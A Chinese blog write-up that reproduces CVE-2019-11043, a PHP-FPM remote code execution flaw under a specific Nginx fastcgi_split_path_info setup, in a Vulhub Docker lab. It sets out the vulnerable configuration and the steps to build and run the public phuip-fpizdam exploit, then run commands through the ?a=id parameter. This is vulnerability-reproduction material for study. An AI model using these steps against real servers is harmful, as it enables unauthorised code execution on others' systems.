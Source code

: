 ```yaml
---
title:  PHP-FPM在Nginx特定配置下远程代码执行漏洞复现
date: 2019-10-23 22:03:23
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - PHP
    - Nginx
    - RCE
    - 漏洞复现
    - CVE-2019-11043
---
```


# 0x01 漏洞概述

在9 月 14 日至 18 举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，
向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

Nginx 上 fastcgi_split_path_info 在处理带有 %0a 的请求时，会因为遇到换行符 \n 导致 PATH_INFO 为空。
而 php-fpm 在处理 PATH_INFO 为空的情况下，存在逻辑缺陷。
攻击者通过精心的构造和利用，可以导致远程代码执行。

漏洞编号：CVE-2019-11043

漏洞 PoC 在 10 月 22 日公开。

# 0x02 影响范围

**PHP 5.6-7.x**

Nginx + php-fpm 的服务器，在使用如下配置的情况下，都可能存在远程代码执行漏洞。

```
 location ~ [^/]\.php(/|$) {

        fastcgi_split_path_info ^(.+?\.php)(/.*)$;

        fastcgi_param PATH_INFO       $fastcgi_path_info;

        fastcgi_pass   php:9000;

        ...
  }
}
```

# 0x03 漏洞复现

## 复现环境

攻击机：Windows 10
靶    机:  Vulhub靶场

[Vulhub](https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043)已有相关漏洞靶场，按教程搭建即可。

```
mkdir CVE-2019-11043
cd CVE-2019-11043/
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/default.conf
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/docker-compose.yml
mkdir www
cd www/
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/www/index.php
cd ../
service docker start
docker-compose up -d
```

搭建好之后，访问 `http://ip:8080/index.php` 即可。

在[Github](https://github.com/neex/phuip-fpizdam)下载相应的工具
(需要安装Git，或者直接下载)
生成`phuip-fpizdam`工具
（需要安装go环境）
```
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go build
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191023223540.png)

## 漏洞利用
在生成工具的文件夹 执行命令

`phuip-fpizdam.exe http://ip:8080/index.php`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191023223937.png)

然后访问

`http://your-ip:8080/index.php?a=id`

**注意，因为php-fpm会启动多个子进程，在访问/index.php?a=id时需要多访问几次，以访问到被污染的进程。**

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191023224120.png)

# 参考文章

[phuip-fpizdam: Exploit for CVE-2019-11043](https://github.com/neex/phuip-fpizdam)
[PHP :: Sec Bug #78599 :: env_path_info underflow in fpm_main.c can lead to RCE](https://bugs.php.net/bug.php?id=78599)
[[漏洞复现]CVE-2019-11043/PHP-FPM在Nginx特定配置下远程代码执行 - Qiita](https://qiita.com/shimizukawasaki/items/39d68a7c658dfa50263d?from=timeline&isappinstalled=0)
